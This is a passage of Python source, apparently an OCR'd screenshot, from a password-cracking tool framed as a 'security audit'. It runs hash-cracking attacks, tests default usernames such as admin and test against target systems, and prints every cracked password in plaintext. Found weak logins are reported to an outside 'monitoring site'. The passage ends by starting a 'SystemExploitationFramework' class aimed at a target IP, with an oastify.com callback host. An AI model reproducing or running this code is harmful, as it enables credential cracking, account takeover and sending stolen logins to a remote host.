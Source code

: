 ```python
            if response.status_code == 200:
                print(f"    [+] Weak login reported to monitoring site")
                
        except Exception as e:
            print(f"    [-] Error reporting weak login: {e}")
    
    def comprehensive_password_audit(self, hash_list, target_systems):
        """Perform comprehensive password security audit"""
        print("="*60)
        print("COMPREHENSIVE PASSWORD SECURITY AUDIT")
        print("="*60)
        
        # Phase 1: Hash cracking
        print("\nPhase 1: Password Hash Analysis")
        print("-" * 40)
        
        for i, (hash_value, hash_type) in enumerate(hash_list, 1):
            print(f"\nTarget {i}: {hash_type.upper()} Hash")
            result = self.hybrid_attack(hash_value, hash_type)
            if not result:
                print(f"    Hash remains uncracked: {hash_value[:20]}...")
        
        # Phase 2: Weak credential testing
        print(f"\nPhase 2: Weak Credential Testing")
        print("-" * 40)
        
        for target in target_systems:
            weak_creds = self.test_weak_passwords(['admin', 'user', 'test'], target)
            if weak_creds:
                print(f"    Found {len(weak_creds)} weak credential pairs on {target}")
        
        # Phase 3: Generate report
        self.generate_audit_report()
    
    def generate_audit_report(self):
        """Generate comprehensive audit report"""
        print(f"\n" + "="*60)
        print("PASSWORD SECURITY AUDIT REPORT")
        print("="*60)
        
        print(f"Total passwords cracked: {len(self.cracked_passwords)}")
        
        if self.cracked_passwords:
            print(f"\nCracked Passwords:")
            for crack in self.cracked_passwords:
                print(f"  Method: {crack['method']}")
                print(f"  Password: {crack['password']}")
                print(f"  Hash Type: {crack['hash_type']}")
                print(f"  Hash: {crack['hash'][:30]}...")
                print()
        
        print(f"\nRecommendations:")
        print(f"1. Implement strong password policies")
        print(f"2. Use multi-factor authentication")
        print(f"3. Regular password audits and changes")
        print(f"4. Account lockout mechanisms")
        print(f"5. Password complexity requirements")

# System Exploitation Framework
class SystemExploitationFramework:
    def __init__(self, target_ip):
        self.target_ip = target_ip
        self.test_site = "https://rnivqlhaedmb4yc3ezjzgji7xy3prff4.oastify.com"
```
